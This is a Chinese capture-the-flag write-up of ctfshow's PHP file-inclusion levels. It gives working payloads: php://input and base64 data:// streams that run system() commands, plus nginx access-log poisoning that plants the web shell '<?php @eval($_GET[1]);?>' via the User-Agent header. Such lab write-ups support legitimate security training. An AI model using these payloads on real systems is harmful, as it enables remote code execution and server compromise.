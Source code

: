 ```yaml
---
{"dg-publish":true,"title":"CTFshow_文件包含","dg-path":"安全/靶场/CTFshow_文件包含.md","permalink":"/安全/靶场/CTFshow_文件包含/","dgPassFrontmatter":true}
---
```


# WEB 78
![Pasted image 20240808142137.png](/img/user/picture/Pasted%20image%2020240808142137.png)
这里对文件包含没有任何限制，所以我们利用php伪协议来执行代码
`?file=php://input`
`<?php system('ls');?>`
![Pasted image 20240808142836.png](/img/user/picture/Pasted%20image%2020240808142836.png)
发现有`flag.php`
继续读取`<?php system('cat flag.php');?>`
查看网页源码得到flag
![Pasted image 20240808142934.png](/img/user/picture/Pasted%20image%2020240808142934.png)


# WEB 79

![Pasted image 20240808143458.png](/img/user/picture/Pasted%20image%2020240808143458.png)
这里限制了字符`php`
所以我们上一关的payload就没法使用了
我们可以利用`data://`来进行代码执行

 将`<?php system('ls ');?>`编码
 `file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdscyAnKTs/Pg==`
注意，这里不能有`+`
发现还是`flag.php index.php`

将`<?php system('tac flag.php');?>`编码
`file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmxhZy5waHAnKTs/Pg==`
得到flag
![Pasted image 20240808144944.png](/img/user/picture/Pasted%20image%2020240808144944.png)


# WEB 80 日志包含

![Pasted image 20240808145536.png](/img/user/picture/Pasted%20image%2020240808145536.png)
此题过滤了`php`和`data`，

可以包含日志文件`?file=/var/log/nginx/access.log`
日志文件中包含了 url以及ua信息等，这里ua最容易控制，抓包改ua，写入一句话即可。如下第三行
```http
GET /?file=/var/log/nginx/access.log HTTP/1.1
Host: 4e9bb3c0-1021-427e-81a3-42e5e6e13c39.challenge.ctf.show
User-Agent: <?php @eval($_GET[1]);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: UM_distinctid=17ffcdc88eb73a-022664ffe42c5b8-13676d4a-1fa400-17ffcdc88ec82c
Connection: close
```

注意：插入的后门代码最好加上@让他不要报错

`?file=/var/log/nginx/access.log&1=system("tac fl0g.php");`

![Pasted image 20240808154207.png](/img/user/picture/Pasted%20image%2020240808154207.png)


# WEB 81

![Pasted image 20240808155528.png](/img/user/picture/Pasted%20image%2020240808155528.png)
和上一题思路差不多


# WEB 82
![Pasted image 20240808155957.png](/img/user/picture/Pasted%20image%2020240808155957.png)
